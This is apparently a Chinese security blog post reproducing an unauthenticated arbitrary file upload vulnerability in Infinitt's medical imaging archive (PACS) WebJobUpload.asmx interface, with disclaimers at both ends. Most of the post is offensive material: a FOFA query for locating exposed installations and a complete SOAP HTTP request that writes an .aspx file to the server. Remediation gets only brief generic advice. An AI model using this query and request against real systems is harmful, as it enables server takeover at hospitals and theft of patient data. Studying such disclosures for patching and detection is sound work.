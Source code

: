 #  漏洞复现 | 英飞达医学影像存档与通信系统WebJobUpload任意文件上传漏洞【附poc】   
原创 实战安全研究  实战安全研究   2024-05-18 17:43  
  
**免责声明**  
  
**本文仅用于技术学习和讨论。请勿使用本文所提供的内容及相关技术从事非法活动**  
**，由于传播、利用此文所提供的内容或工具而造成的任何直接或者间接的后果及损失，**  
**均由使用者本人负责，所产生的一切不良后果均与文章作者及本账号**  
**无关**  
**，本次测试仅供学习使用。**  
**如有内容争议或侵权，请及时私信我们！****我们会立即删除并致歉。谢谢！**  
##   
  
**一、漏洞简述**  
  
英飞达  
是一家专业开发医学影像系统的公司，成立于1994年，医学影像存档与通信系统 Picture Archiving and Communication System，由软件光盘、使用手册组成，组成模块包括影像采集模块、影像存储模块、影像浏览模块、影像输出模块。用于医疗图像的采集、存储、浏览、传输和输出。  
其  
WebJobUpload.asmx  
接口  
存在任意文件上传漏洞，  
未经身份验证  
的恶意攻击者  
可以上传任意文件，  
进而控制服务器系统  
。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF080ibHgwTBe011ouLnEx4kSHeNkThPW693utXMJiaNpdwrUnEmoDhiakAIfjxHypr8EaWxfpKPlSvbA/640?wx_fmt=png&from=appmsg "")  
## 二、网络测绘  
```
fofa：
icon_hash="1474455751" || icon_hash="702238928"
```  
## 三、漏洞复现  
  
测试上传aspx文件，test为base64编码dGVzdA==  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF080ibHgwTBe011ouLnEx4kS8JJ70FictmKOiak3TI9krL88tXIUCHggumxPW2EPKmmEMvtNMQcW5OmA/640?wx_fmt=png&from=appmsg "")  
  
访问  
/1/test.aspx文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF080ibHgwTBe011ouLnEx4kSlAeAqb5pUh8yXtB2toYmTUe3eoX3lJicraxCSqjibWUAec6icRs9icWJ8Q/640?wx_fmt=png&from=appmsg "")  
  
**四、漏洞检测poc**  
```
POST /webservices/WebJobUpload.asmx HTTP/1.1
Host: 0.0.0.0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Length: 410
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
Soapaction: "http://rainier/jobUpload"
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<jobUpload xmlns="http://rainier">
<vcode>1</vcode>
<subFolder></subFolder>
<fileName>test.aspx</fileName>
<bufValue>dGVzdA==</bufValue>
</jobUpload>
</soap:Body>
</soap:Envelope>
```  
  
  
**五、漏洞修复**  
  
1  
、建议联系厂商打补丁或升级版本。  
  
2、增  
加Web应用防火墙防护。  
  
3、  
关闭互联网暴露面或接口设置访问权限。  
  
**免责声明**  
  
**本文仅用于技术学习和讨论。请勿使用本文所提供的内容及相关技术从事非法活动**  
**，由于传播、利用此文所提供的内容或工具而造成的任何直接或者间接的后果及损失，**  
**均由使用者本人负责，所产生的一切不良后果均与文章作者及本账号**  
**无关**  
**，本次测试仅供学习使用。**  
**如有内容争议或侵权，请及时私信我们！****我们会立即删除并致歉。谢谢！**  
  
  
